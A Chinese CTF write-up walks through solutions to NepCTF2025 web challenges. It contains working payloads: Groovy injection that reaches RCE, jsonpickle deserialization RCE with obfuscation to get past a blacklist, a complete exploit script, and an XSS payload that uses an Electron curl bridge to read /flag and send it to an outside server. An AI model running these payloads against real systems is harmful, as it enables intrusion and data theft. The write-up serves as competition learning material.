



# NepCTF2025复现

WEB原文链接：https://blog.csdn.net/c582037/article/details/149733822

MISC原文链接：https://blog.csdn.net/edigexiong/article/details/149725919

## WEB

### **easyGooGooVVVY**

就是简单的groovy表达式注入，使用反射拿能利用RCE类然后实例化再执行命令。在环境变量里找到flag

payload：

```
# 通过getRuntime()方法实例化然后执行exec

java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("env").getText()
```

其他的payload：

```
def proc = ''.class.forName('java.lang.Runtime').getRuntime().exec('cat /proc/1/environ')
println $(proc.text)
```

```
# 通过newInstance获取构造方法实例化对象，然后执行start()方法实现rce

def builder = ''.class.forName('java.lang.ProcessBuilder').newInstance(['cat', '/proc/1/environ'] as String[])
def proc = builder.start()
println $(proc.inputStream.text)
```

```
def proc = this.class.classLoader.loadClass("java.lang.Runtime").getRuntime().exec("cat /proc/1/environ")
proc.text
```

---

### RevengeGooGooVVVY

同上题

---

### JavaSeri

使用shiro反序列化工具爆破密钥拿到key，然后写入木马在环境变量里拿到flag

但是我这里使用java8显示检测不到shiro框架

---

### safe_bank

#### 大佬wp

这题的关键是cookie，解码之后可以发现是json格式的数据，并且可以修改。

然后搜到这篇文章

[强网杯S8 决赛jsonpickle](https://xz.aliyun.com/news/16041)

里面详细说明了jsonpickle反序列化safe模式下的RCE与绕过

这里的反序列化很有意思，因为一般的反序列化需要使用reduce，但是这里reduce被过滤了，但是这里又学到了可以用object来反序列化然后成功执行命令

根据这篇博客可以构造出任意文件读取的payload：

```
{
  "py/object": "__main__.Session",
  "meta": {
    "user": {"py/object":"linecache.getlines","py/newargsex":[{"py/set":["/proc/self/cmdline"]},""]},
    "ts": 1753471621
  }
}

```

读一下源码/app/app.py

```
{
  "py/object": "__main__.Session",
  "meta": {
    "user": {"py/object":"linecache.getlines","py/newargsex":[{"py/set":["app.py"]},""]},
    "ts": 1753471621
  }
}

```

成功读取源码

```
from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import json
import os
import time

app = Flask(__name__)
app.secret_key = os.urandom(24)

class Account:
    def __init__(self, uid, pwd):
        self.uid = uid
        self.pwd = pwd

class Session:
    def __init__(self, meta):
        self.meta = meta

# 内置用户
users_db = [
    Account("admin", os.urandom(16).hex()),
    Account("guest", "guest")
]

def register_user(username, password):
    for acc in users_db:
        if acc.uid == username:
            return False
    users_db.append(Account(username, password))
    return True

# 关键字黑名单（WAF）
FORBIDDEN = [
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\\\\\', 'posix',
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]

def waf(serialized):
    try:
        data = json.loads(serialized)
        payload = json.dumps(data, ensure_ascii=False)
        for bad in FORBIDDEN:
            if bad in payload:
                return bad
        return None
    except:
        return "error"

# 首页
@app.route('/')
def root():
    return render_template('index.html')

# 注册
@app.route('/register', methods=['GET', 'POST'])
def register():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        confirm_password = request.form.get('confirm_password')

        if not username or not password or not confirm_password:
            return render_template('register.html', error="所有字段都是必填的。")

        if password != confirm_password:
            return render_template('register.html', error="密码不匹配。")

        if len(username) < 4 or len(password) < 6:
            return render_template('register.html', error="用户名至少需要4个字符，密码至少需要6个字符。")

        if register_user(username, password):
            return render_template('index.html', message="注册成功！请登录。")
        else:
            return render_template('register.html', error="用户名已存在。")

    return render_template('register.html')

# 登录
@app.post('/auth')
def auth():
    u = request.form.get("u")
    p = request.form.get("p")
    for acc in users_db:
        if acc.uid == u and acc.pwd == p:
            sess_data = Session({'user': u, 'ts': int(time.time())})
            token_raw = jsonpickle.encode(sess_data)
            b64_token = base64.b64encode(token_raw.encode()).decode()
            resp = make_response("登录成功。")
            resp.set_cookie("authz", b64_token)
            resp.status_code = 302
            resp.headers['Location'] = '/panel'
            return resp
    return render_template('index.html', error="登录失败。用户名或密码无效。")

# 用户/管理员面板
@app.route('/panel')
def panel():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root', error="缺少Token。"))

    try:
        decoded = base64.b64decode(token.encode()).decode()
    except:
        return render_template('error.html', error="Token格式错误。")

    ban = waf(decoded)
    if ban:
        return render_template('error.html', error=f"请不要黑客攻击！{ban}")

    try:
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta

        if meta.get("user") != "admin":
            return render_template('user_panel.html', username=meta.get('user'))

        return render_template('admin_panel.html')
    except Exception as e:
        return render_template('error.html', error="数据解码失败。")

# 管理员保险库
@app.route('/vault')
def vault():
    token = request.cookies.get("authz")
    if not token:
        return redirect(url_for('root'))

    try:
        decoded = base64.b64decode(token.encode()).decode()
        if waf(decoded):
            return render_template('error.html', error="请不要尝试黑客攻击！")
        sess_obj = jsonpickle.decode(decoded, safe=True)
        meta = sess_obj.meta

        if meta.get("user") != "admin":
            return render_template('error.html', error="访问被拒绝。只有管理员才能查看此页面。")

        flag = "NepCTF{fake_flag_this_is_not_the_real_one}"
        return render_template('vault.html', flag=flag)
    except:
        return redirect(url_for('root'))

# 关于页面
@app.route('/about')
def about():
    return render_template('about.html')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000, debug=True)

```

发现一个超级waf

```
FORBIDDEN = [
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb', 'pickle', 'marshal',
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\\\\\', 'posix',
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]
```

当时就是卡在这了，因为这题的flag必须要执行/readflag，所以必须要能够RCE。但是博客里的原payload无法使用，被waf掉了。

这里放一下原payload：

```
{"py/object": "__main__.Token", "username": {"py/object":"subprocess.getoutput","py/newargsex":[{"py/set":["/readflag"]},""]} ,"timestamp": 1733467440.7435746}
```

所以得自己去调试去找到能RCE的类

[JsonPickle调试分析原理及WAF绕过-先知社区](https://xz.aliyun.com/news/16098)

触发rce的原理分析



这里的payload：

```
d='{"py/object":"builtins.bytes", "py/newargs":{"py/object": "builtins.map", "py/newargs" : [{"py/function": "builtins.exec"}, ["print(123)"]]}}'
jsonpickle.decode(d)
```

但是这里builtins也被过滤了

大佬的exp：

```
import base64
import json
import requests

# 修改这里的配置
TARGET_URL = "https://nepctf30-y41b-mgvh-68lq-zhdrtbpjj218.nepctf.com/panel"
COMMAND = "import os;os.system('/readflag>/app/flag5.txt')"


def string_to_chr(s):
    return "+".join([f"chr({ord(c)})" for c in s])


def generate_payload(command):
    # 转换命令为chr()形式
    chr_command = string_to_chr(command)

    # 构造payload
    payload = {
        "py/object": "app.Session",
        "meta": {
            "user": {
                "py/object": "__builtin__.bytes",
                "py/newargs": {
                    "py/object": "__builtin__.map",
                    "py/newargs": [
                        {"py/function": "__builtin__.eval"},
                        [f"exec({chr_command})"],
                    ],
                },
            },
            "ts": 1753971621,
        },
    }

    # 转为JSON字符串
    json_payload = json.dumps(payload, ensure_ascii=False)

    # Base64编码
    b64_payload = base64.b64encode(json_payload.encode()).decode()

    return b64_payload


def send_request(url, payload):
    headers = {
        "Cookie": f"authz={payload}",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache",
        "Sec-Ch-Ua": '"Not)A;Brand";v="8", "Chromium";v="138", "Microsoft Edge";v="138"',
        "Sec-Ch-Ua-Mobile": "?0",
        "Sec-Ch-Ua-Platform": '"Windows"',
        "Upgrade-Insecure-Requests": "1",
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36 Edg/138.0.0.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "Sec-Fetch-Site": "same-origin",
        "Sec-Fetch-Mode": "navigate",
        "Sec-Fetch-Dest": "document",
        "Accept-Encoding": "gzip, deflate, br",
        "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
        "Sec-Fetch-User": "?1",
        "Priority": "u=0, i",
        "Connection": "keep-alive",
    }

    try:
        response = requests.get(url, headers=headers, timeout=10)
        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


if __name__ == "__main__":
    print(f"目标URL: {TARGET_URL}")
    print(f"执行命令: {COMMAND}")
    print("-" * 50)

    # 生成payload
    payload = generate_payload(COMMAND)
    print(f"生成的payload: {payload}")
    print()

    # 发送请求
    print("发送请求中...")
    response = send_request(TARGET_URL, payload)

    if response:
        print(f"状态码: {response.status_code}")
        print(f"响应长度: {len(response.text)}")
        print("响应内容:")
        print("-" * 30)
        print(response.text)
    else:
        print("请求失败！")


```

这里很巧妙的利用chr函数的拼接来绕过waf，太强了

这里我就不用exp了，直接手动注入了

由于os.system没有回显并且这题也不出网，所以只能执行命令后将结果写入文件，然后再利用原来的任意文件读取来得到结果

首先需要执行`ls / > flag1.txt`，所以构造payload

```
{"py/object": "app.Session", "meta": {"user": {"py/object": "__builtin__.bytes", "py/newargs": {"py/object": "__builtin__.map", "py/newargs": [{"py/function": "__builtin__.eval"}, ["exec(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(59)+chr(111)+chr(115)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(32)+chr(47)+chr(32)+chr(62)+chr(32)+chr(47)+chr(97)+chr(112)+chr(112)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(49)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(59))"]]}}, "ts": 1753971621}}


# exec内是 ls / > /app/flag1.txt
```

然后用前面的任意文件读取来获得结果。

发现/readflag

然后再执行`/readflag > flag2.txt`

```
{"py/object": "app.Session", "meta": {"user": {"py/object": "__builtin__.bytes", "py/newargs": {"py/object": "__builtin__.map", "py/newargs": [{"py/function": "__builtin__.eval"}, ["exec(chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(32)+chr(111)+chr(115)+chr(59)+chr(111)+chr(115)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(47)+chr(114)+chr(101)+chr(97)+chr(100)+chr(102)+chr(108)+chr(97)+chr(103)+chr(32)+chr(62)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(50)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(59))"]]}}, "ts": 1753971621}}
```

最后读取/app/flag2.txt即可拿到flag

#### 官方wp

`jsonpickle`采用`Unpickler._restore`对序列化对象进行恢复。而每种标签又对应着不同的`_restore`函数。例如`py/object` ，会调用`_restore_object`进行处理。

而问题出在`jsonpickle`自定义的`loadclass`函数中。在208行对模块进行逆向翻译时，依次调用了`util.untranslate_module_name`->`util._0_9_6_compat_untranslate`。

在`util._0_9_6_compat_untranslate`中，将`builtin`和`exceptions`转化为`builtins`。这恐怕是开发者为了兼容Python2，因为在Python2中，使用`__builtin__`代表内置模块，而非`builtins`，而`exceptions`是作为Python2中存放异常类的模块，Python3则将异常类全部放入了`builins`模块中。

由此，可以通过`builtin`或者`exceptions`来绕过`builtins`的限制。

黑名单中没有限制`eval`或者`exec`，所以可以构造`exceptions.eval`或者`exceptions.exec`等相关语句来进行RCE，后面常见的字符串绕过就多种多样了。这里给出一个Payload:

```
{"py/object": "__main__.Session", "meta": {"user": {"py/object":"exceptions.eval","py/newargsex":[{"py/set":["exec(\"imp\"+\"ort subpro\"+\"cess;subpro\"+\"cessgeto\"+\"utput('/r\"+\"eadflag>/app/static/flag')\")"]},""]} , "ts": 114514}}
```

---

#### 其他解法

还有其他的解法，可以调用`main.FORBIDDEN.pop`或者`main.FORBIDDEN.clear`直接将黑名单清除

在本地测试一下是否可以清除

```
# from flask import Flask, request, make_response, render_template, redirect, url_for
import jsonpickle
import base64
import uuid
import json
import os
import bdb
import pdb
import time

class Account:
    def __init__(self, uid, pwd):
        self.uid = uid
        self.pwd = pwd

class Session:
    def __init__(self, meta):
        self.meta = meta
FORBIDDEN = [
    'builtins', 'os', 'system', 'repr', '__class__', 'subprocess', 'popen', 'Popen', 'nt',
    'code', 'reduce', 'compile', 'command', 'pty', 'platform', 'pdb',  'pickle', 'marshal',
    'socket', 'threading', 'multiprocessing', 'signal', 'traceback', 'inspect', '\\\\', 'posix',
    'render_template', 'jsonpickle', 'cgi', 'execfile', 'importlib', 'sys', 'shutil', 'state',
    'import', 'ctypes', 'timeit', 'input', 'open', 'codecs', 'base64', 'jinja2', 're', 'json',
    'file', 'write', 'read', 'globals', 'locals', 'getattr', 'setattr', 'delattr', 'uuid',
    '__import__', '__globals__', '__code__', '__closure__', '__func__', '__self__', 'pydoc',
    '__module__', '__dict__', '__mro__', '__subclasses__', '__init__', '__new__'
]
def waf(serialized):
    try:
        data = json.loads(serialized)
        payload = json.dumps(data, ensure_ascii=False)
        for bad in FORBIDDEN:
            if bad in payload:
                return bad
        return None
    except:
        return "error"
A = Session({})
payload = '''{"py/object": "__main__.Session", "meta": {"user": {"py/object": "__main__.FORBIDDEN.clear","py/newargs": []},"ts":1753446254}}'''
sess_obj = jsonpickle.decode(payload)
print(sess_obj.meta)
print(FORBIDDEN)
```

发现输出[]，成功清除黑名单。

---

所以我们先清除黑名单

```
{"py/object": "__main__.Session", "meta": {"user": {"py/object":"__main__.FORBIDDEN.clear","py/newargs": []},"ts":1753446254}}
```

然后直接调用`subprocess.getoutput()`把/readflag的输出写到/app/1.txt

payload：

```
{"py/object": "__main__.Session", "meta": {"user": {"py/object":"subprocess.getoutput","py/newargs": ["/readflag > /app/1.txt"]},"ts":1753446254}}
```

最后用lincache读取/app/1.txt

```
{"py/object": "__main__.Session", "meta": {"user": {"py/object": "linecache.getlines", "py/newargsex": [{"py/set":["/app/1.txt"]},""]},"ts":1753446254}}
```

---

### fakeXSS

#### 前置知识

**这里解释下cos和aksk**

腾讯云 **COS**（**Cloud Object Storage**）是腾讯云提供的**对象存储服务**，全称为 **腾讯云对象存储**

在腾讯云 **COS（对象存储）** 中，**密钥（SecretKey 和 SecretId）** 是用于身份验证的核心凭证。只要有正确的密钥，就能通过 API 或 SDK 访问和管理存储桶（Bucket）里的文件。

**AKSK** 是 **Access Key ID（AK）** 和 **Secret Access Key（SK）** 的缩写，是云服务商（如腾讯云、阿里云、AWS等）用于身份验证的核心凭证组合，类似于“用户名+密码”。

**Electron API**

Electron API 是 Electron 框架提供的一组核心模块和工具，允许开发者使用 JavaScript、HTML 和 CSS  构建跨平台的桌面应用程序。Electron 结合了 Chromium 浏览器引擎和 Node.js 运行时，使其 API 分为主进程(Main  Process)和渲染器进程(Renderer Process)两部分。

---

#### 官方wp

腾讯云 **COS**（**Cloud Object Storage**）是腾讯云提供的**对象存储服务**，全称为 **腾讯云对象存储**

打开是一个登录框，注册一个账号登录，上传头像接口处可以获得一组cos的临时的上传aksk

但是我复现的时候发现获取临时密钥失败，可能是环境已经没了，这里只能照搬官方wp了



测试该AKSK的权限，可以发现有列桶的权限

```
import json
from qcloud_cos import CosConfig
from qcloud_cos import CosS3Client

# 使用临时密钥获取存储桶信息
def get_bucket_info(region, bucket, secret_id, secret_key, token):
    """
    使用临时密钥获取存储桶信息
    """
    try:
        # 配置COS客户端
        config = CosConfig(
            Region=region,
            SecretId=secret_id,
            SecretKey=secret_key,
            Token=token,
            Scheme='https'
        )
        client = CosS3Client(config)

        # 获取存储桶信息
        response = client.list_objects(Bucket=bucket)
        
        # 打印存储桶信息
        print(f"存储桶 {bucket} 信息获取成功:")
        print(response)
        
        # 打印前对象
        if'Contents'in response:
            for i, obj in enumerate(response['Contents']):
                print(f"{i+1}. {obj['Key']}")
        
        return response

    except Exception as e:
        print(f"获取存储桶信息时发生异常: {e}")
        returnNone

if __name__ == "__main__":
    # 输入存储桶信息
    REGION = "ap-guangzhou"
    BUCKET = "test-1360802834"
    
    SECRET_ID = "AKID9zMx****（复现后已打码）"
    SECRET_KEY = "a1mB43BS****（已打码）"
    TOKEN = "0TiYj7xc****（STS临时凭证，已过期并打码）"
    
    # 使用临时密钥获取存储桶信息
    get_bucket_info(REGION, BUCKET, SECRET_ID, SECRET_KEY, TOKEN)
```



flag.txt是一个假flag，为了提醒选手们去拿下面的源码的 可以在桶中找到server_bak.js，访问`https://test-1360802834.cos.ap-guangzhou.myqcloud.com/www/server_bak.js`，获得源码 

源码：

```
const express = require('express');
const session = require('express-session');
const bodyParser = require('body-parser');
const crypto = require('crypto');
const tencentcloud = require("tencentcloud-sdk-nodejs");
const path = require('path');
const fs = require('fs');
const { v4: uuidv4 } = require('uuid');
const { execFile } = require('child_process');
const he = require('he');


const app = express();
const PORT = 3000;

app.use((req, res, next) => {
  res.setHeader('Access-Control-Allow-Origin', '*');
  res.setHeader('Access-Control-Allow-Methods', 'GET, POST, PUT, DELETE');
  res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization');
  res.setHeader('Access-Control-Allow-Credentials', 'true');
  next();
});

// 配置会话
app.use(session({
  secret: 'ctf-secret-key_023dfpi0e8hq',
  resave: false,
  saveUninitialized: true,
  cookie: { secure: false , httpOnly: false}
}));

app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));
app.use(express.static(path.join(__dirname, 'public')));

// 用户数据库
const users = {'admin': { password: 'nepn3pctf-game2025', role: 'admin', uuid: uuidv4(), bio: '' }};
// 存储登录页面背景图片 URL
let loginBgUrl = '';

// STS 客户端配置
const StsClient = tencentcloud.sts.v20180813.Client;
const clientConfig = {
  credential: {
    secretId: "AKIDRkvu****（已打码）",
    secretKey: "NXUD****（已打码）",
  },
  region: "ap-guangzhou",
  profile: {
    httpProfile: {
      endpoint: "sts.tencentcloudapi.com",
    },
  },
};
const client = new StsClient(clientConfig);

// 注册接口
app.post('/api/register', (req, res) => {
  const { username, password } = req.body;
  if (users[username]) {
    return res.status(409).json({ success: false, message: '用户名已存在' });
  }
  const uuid = uuidv4();
  users[username] = { password, role: 'user', uuid, bio: '' };
  res.json({ success: true, message: '注册成功' });
});

// 登录页面
app.get('/', (req, res) => {
  let loginHtml = fs.readFileSync(path.join(__dirname, 'public', 'login.html'), 'utf8');
  if (loginBgUrl) {
    const key = loginBgUrl.replace('/uploads/', 'uploads/');
    const fileUrl = `http://ctf.mudongmudong.com/${key}`;

    const iframeHtml = `<iframe id="backgroundframe" src="${fileUrl}" style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: -1; border: none;"></iframe>`;
    loginHtml = loginHtml.replace('</body>', `${iframeHtml}</body>`);
  }
  res.send(loginHtml);
});


// 登录接口
app.post('/api/login', (req, res) => {
  const { username, password } = req.body;
  const user = users[username];

  if (user && user.password === password) {
    req.session.user = { username, role: user.role, uuid: user.uuid };
    res.json({ success: true, role: user.role });
  } else {
    res.status(401).json({ success: false, message: '认证失败' });
  }
});

// 检查用户是否已登录
function ensureAuthenticated(req, res, next) {
  if (req.session.user) {
    next();
  } else {
    res.status(401).json({ success: false, message: '请先登录' });
  }
}

// 获取用户信息
app.get('/api/user', ensureAuthenticated, (req, res) => {
  const user = users[req.session.user.username];
  res.json({ username: req.session.user.username, role: req.session.user.role, uuid: req.session.user.uuid, bio: user.bio });
});

// 获取头像临时密钥
app.get('/api/avatar-credentials', ensureAuthenticated, async (req, res) => {
  const params = {
    Policy: JSON.stringify({
      version: "2.0",
      statement: [
        {
          effect: "allow",
          action: ["cos:PutObject"],
          resource: [
            `qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/picture/${req.session.user.uuid}.png`
          ],
          Condition: {
            numeric_equal: {
              "cos:request-count": 5
            },
            numeric_less_than_equal: {
              "cos:content-length": 10485760  // 10MB 大小限制
            }
          }
        },
        {
          effect: "allow",
          action: ["cos:GetBucket"],
          resource: [
            "qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/*"
          ]
        }
      ]
    }),
    DurationSeconds: 1800,
    Name: "avatar-upload-client"
  };

  try {
    const response = await client.GetFederationToken(params);
    const auth = Buffer.from(JSON.stringify(params.Policy)).toString('base64');
    res.json({ ...response.Credentials, auth });
  } catch (err) {
    console.error("获取头像临时密钥失败:", err);
    res.status(500).json({ error: '获取临时密钥失败' });
  }
});

// 获取文件上传临时密钥（管理员）
app.get('/api/file-credentials', ensureAuthenticated, async (req, res) => {
  if (req.session.user.role !== 'admin') {
    return res.status(403).json({ error: '权限不足' });
  }

  const params = {
    Policy: JSON.stringify({
      version: "2.0",
      statement: [
        {
          effect: "allow",
          action: ["cos:PutObject"],
          resource: [
            `qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/uploads/${req.session.user.uuid}/*`
          ],
          Condition: {
            numeric_equal: {
              "cos:request-count": 5
            },
            numeric_less_than_equal: {
              "cos:content-length": 10485760  
            }
          }
        },
        {
          effect: "allow",
          action: ["cos:GetBucket"],
          resource: [
            "qcs::cos:ap-guangzhou:uid/1360802834:test-1360802834/*"
          ]
        }
      ]
    }),
    DurationSeconds: 1800,
    Name: "file-upload-client"
  };

  try {
    const response = await client.GetFederationToken(params);
    const auth = Buffer.from(JSON.stringify(params.Policy)).toString('base64');
    res.json({ ...response.Credentials, auth });
  } catch (err) {
    console.error("获取文件临时密钥失败:", err);
    res.status(500).json({ error: '获取临时密钥失败' });
  }
});

// 保存个人简介（做好 XSS 防护）
app.post('/api/save-bio', ensureAuthenticated, (req, res) => {
  const { bio } = req.body;
  const sanitizedBio = he.encode(bio);
  const user = users[req.session.user.username];
  user.bio = sanitizedBio;
  res.json({ success: true, message: '个人简介保存成功' });
});

// 退出登录
app.post('/api/logout', ensureAuthenticated, (req, res) => {
  req.session.destroy();
  res.json({ success: true });
});

// 设置登录页面背景
app.post('/api/set-login-bg', ensureAuthenticated, async (req, res) => {
  if (req.session.user.role !== 'admin') {
    return res.status(403).json({ success: false, message: '权限不足' });
  }
  const { key } = req.body;
  bgURL = key;
  try {
    const fileUrl = `http://ctf.mudongmudong.com/${bgURL}`;
    const response = await fetch(fileUrl);
    if (response.ok) {
        const content = response.text();
    } else {
        console.error('获取文件失败:', response.statusText);
        return res.status(400).json({ success: false, message: '获取文件内容失败' });
    }
  } catch (error) {
      return res.status(400).json({ success: false, message: '打开文件失败' });
  }
  loginBgUrl = key;
  res.json({ success: true, message: '背景设置成功' });
});


app.get('/api/bot', ensureAuthenticated, (req, res) => {

  if (req.session.user.role !== 'admin') {
    return res.status(403).json({ success: false, message: '权限不足' });
  }

  const scriptPath = path.join(__dirname, 'bot_visit');

  // bot 将会使用客户端软件访问 http://127.0.1:3000/ ，但是bot可不会带着他的秘密去访问哦

  execFile(scriptPath, ['--no-sandbox'], (error, stdout, stderr) => {
    if (error) {
      console.error(`bot visit fail: ${error.message}`);
      return res.status(500).json({ success: false, message: 'bot visit failed' });
    }

    console.log(`bot visit success:\n${stdout}`);
    res.json({ success: true, message: 'bot visit success' });
  });
});

// 下载客户端软件
app.get('/downloadClient', (req, res) => {
  const filePath = path.join(__dirname, 'client_setup.zip');

  if (!fs.existsSync(filePath)) {
    return res.status(404).json({ success: false, message: '客户端文件不存在' });
  }

  res.download(filePath, 'client_setup.zip', (err) => {
    if (err) {
      console.error('client download error: ', err);
      return res.status(500).json({ success: false, message: '下载失败' });
    } else {
    }
  });
});

// 启动服务器
app.listen(PORT, () => {
  console.log(`服务器运行在端口 ${PORT}`);
});

```

使用管理员账号和密码登录发现这里iframe的URL直接做拼接，是有xss的

```
// 登录页面
app.get('/', (req, res) => {
  let loginHtml = fs.readFileSync(path.join(__dirname, 'public', 'login.html'), 'utf8');
  if (loginBgUrl) {
    const key = loginBgUrl.replace('/uploads/', 'uploads/');
    const fileUrl = `http://ctf.mudongmudong.com/${key}`;

    const iframeHtml = `<iframe id="backgroundframe" src="${fileUrl}" style="position: fixed; top: 0; left: 0; width: 100%; height: 100%; z-index: -1; border: none;"></iframe>`;
    loginHtml = loginHtml.replace('</body>', `${iframeHtml}</body>`);
  }
  res.send(loginHtml);
});
```

loginBgUrl是通过admin访问/api/set-login-bg接口来设置的 

alert的payload：

```
uploads/1f1eb21d-a0c9-441a-941b-c37498c3bcb8/微信图片_2025-07-16_112547_870.jpg?a=1\" onload=\"alert(2);
```

注意要先上传图片再基于获得的云URL来写payload，因为设置之前会先检测内容是否存在 

尝试外带bot的访问，可以发现没有东西 

源码注释说bot会使用客户端访问，下载客户端，看看有无注入jsbridge 列出window下的属性，可以发现客户端注入了electronAPI

控制台输入

```
console.log(window);
```

其中有两个函数 curl 和 loadRemoteURL

尝试使用curl函数去curl file协议，发现就是原生curl

让bot去外带我们的/flag文件即可，payload

```
uploads/1f1eb21d-a0c9-441a-941b-c37498c3bcb8/微信图片_2025-07-16_112547_870.jpg?a=1\" onload=\"window.electronAPI.curl('file:///flag').then(result => {window.location.href='https://mak4r1.com/xss.php?a=test'+result.data});
```

访问/api/bot 我们的服务器成功接收到请求

另一种不用出网的payload：让bot获取flag后登录admin把flag存到个人简介中

```
